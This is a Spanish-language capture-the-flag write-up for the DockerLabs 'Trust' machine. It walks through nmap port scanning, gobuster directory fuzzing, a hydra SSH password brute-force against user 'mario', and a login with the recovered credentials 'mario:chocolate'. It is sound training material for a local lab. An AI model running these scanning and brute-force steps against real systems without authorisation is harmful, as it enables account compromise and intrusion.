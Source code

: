 #Maquina Trust
----

Desplegamos la maquina trust de dockerlabs

![image](https://github.com/user-attachments/assets/50d88287-2321-40c7-b0cc-12db16c0bb50)

---- 
## Escaneo 

Primero hacemos un escaneo de todos los puertos para ver los que están abiertos.

```bash
nmap -p- --open -T5 -n 10.89.0.2 -vvv -oN pertos.txt
```

- `-p-`: Indicamos que vas a escanear todo el rango de puertos
- `--open`: Indicamos que te muestre solo los puertos que estén abiertos.
- `-T5`: Aplicamos la plantilla de escaneo mas rápida que tiene nmap. 
- `-n`: Quitamos la resolución DNS del escaneo.
- `-vvv`: Añadimos verbose.
- `-oN`: Indicamos que nos saque un output del escaneo en formato nmap al archivo **puertos.txt**.

![image](https://github.com/user-attachments/assets/6824378c-293f-4ac7-b775-8616f6bc28b4)

Tenemos abiertos los puertos 22 y 80. Vamos a hacer un escaneo de versiones de los servicios que corren en esos puertos.

```bash
nmap -p22,80 -sV 10.89.0.2
```

- `-p22,80`: Indicamos que el escaneo se haga solo sobre esos 2 puertos.
- `-sV`: Indicamos que queremos hacer un escaneo de las versiones que tienen los servicios corriendo en esos puertos.

![image](https://github.com/user-attachments/assets/86d3bf98-8432-4ecd-871c-45f4571c3b3b)

Podemos ver las versiones de los servicios SSH y http lo que nos da información sobre el sistema operativo.
Vamos a ver lo que tenemos en la web. 

![image](https://github.com/user-attachments/assets/7776f2d9-6fb4-48b0-9147-df915ebecb8b)

Tenemos la pagina por defecto de apache por lo que haremos un poco de fizzing con gobuster para ver si tenemos algun directorio mas que podamos ver.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 20 -u http://10.89.0.2
```

-`dir`: Usamos el modo de enumeracion de directorios.
-`-w`: Lo usamos para indicar la ruta de la wordlist que usaremos.
-`-x`: Indicamos las extesiones.
-`-t`: Indicamos los hilos que queremos usar para el fuzzing.
-`-u`: Lo usamos para indicar la url a la que se dirige el ataque.

![image](https://github.com/user-attachments/assets/11007117-937f-449c-b17c-3dd9db6a0b03)

Tenemos un directorio llamado secret.php. Le echamos un vistazo.

![image](https://github.com/user-attachments/assets/54762586-6bc1-4cd8-9b65-0a4fb773bd24)

Podemos ver un mensaje dirijido hacia Mario, por lo que podemos pensar que hay algun usuario llamado mario. El único vector de ataque que se me ocurre es hacer fuerza bruta al otro puerto abierto, el 22 que es el ssh con el usuario mario.

```bash
hydra -l mario -P /usr/share/worlists/rockyou.txt ssh://10.89.0.2
```

![image](https://github.com/user-attachments/assets/cf90f859-0b45-4508-b78e-838b6cf22992)

Encontramos credenciales para acceder por ssh -> mario:chocolate

```bash
ssh mario@10.89.0.2
```
Y estamos dentro.
